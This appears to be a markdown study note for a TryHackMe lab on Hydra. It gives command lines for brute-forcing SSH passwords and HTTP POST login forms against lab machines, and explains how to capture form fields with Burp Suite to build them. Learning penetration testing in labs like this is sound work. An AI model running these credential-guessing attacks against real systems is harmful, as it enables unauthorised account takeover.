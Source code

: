 # Hydra Brute-Forcing (TryHackMe)

A guide to using Hydra for brute-forcing credentials on SSH and web forms, including setup and execution on the TryHackMe AttackBox.


## Hydra Commands

Hydra options vary by protocol (e.g., SSH, HTTP POST). Below are commands and explanations for brute-forcing SSH and web form logins.

### SSH Brute-Forcing

**Command**:

```bash
hydra -l <username> -P <wordlist> MACHINE_IP -t 4 ssh
```

**Options**:

- `-l`: Specifies the SSH username (e.g., `root`).
- `-P`: Path to the password wordlist (e.g., `passwords.txt`).
- `-t 4`: Runs 4 parallel threads for faster execution.

**Example**:

```bash
hydra -l root -P passwords.txt MACHINE_IP -t 4 ssh
```

- Uses `root` as the username.
- Tries passwords from `passwords.txt`.
- Runs 4 threads.

### Web Form Brute-Forcing (POST)

**Command Structure**:

```bash
sudo hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>" -V
```

**Options**:

- `-l`: Username for the web form.
- `-P`: Path to the password wordlist.
- `http-post-form`: Specifies a POST form request.
- `<path>`: Login page URL (e.g., `/login` or `/`).
- `<login_credentials>`: Form fields, e.g., `username=^USER^&password=^PASS^`.
- `<invalid_response>`: String in the server’s response for failed logins (e.g., `F=incorrect`).
- `-V`: Enables verbose output for each attempt.

**General Example**:

```bash
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- Targets the root URL (`/`).
- Replaces `^USER^` with the specified username and `^PASS^` with passwords from the wordlist.
- Filters failed attempts with `F=incorrect`.

## Burp Suite Integration

To craft a precise Hydra command for a web form:

1. Use **Burp Suite** to capture the login request.
2. Identify the form fields (e.g., `username=go&password=gpgp`).
3. Insert these into the Hydra command, replacing the form fields with `^USER^` and `^PASS^`.

**Example with Captured Request**:

Captured form data: `username=go&password=gpgp`.

**Hydra Command**:

```bash
hydra -l go -P <wordlist> 10.10.33.146 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V
```

- `-l go`: Uses `go` as the username (from captured data).
- `<wordlist>`: Path to the password list.
- `10.10.33.146`: Target machine IP.
- `/login`: Login page path.
- `username=^USER^&password=^PASS^`: Matches the captured form fields.
- `Your username or password is incorrect.`: Failure response string.
- `-V`: Shows verbose output.

> [!tip]  
> Use Burp Suite’s Proxy to capture form data and ensure accurate `<login_credentials>` and `<invalid_response>` values for Hydra.

## Notes

- **Request Type**: Confirm whether the form uses GET or POST via Burp Suite or browser developer tools (Network tab or source code).
- **Wordlists**: Use SecLists or custom wordlists for passwords.
- **Threading**: Adjust `-t` (e.g., `-t 4`) to balance speed and server load.
- **Verbose Output**: The `-V` flag helps debug by showing each attempt’s result.

#Hydra #TryHackMe #BruteForce #BurpSuit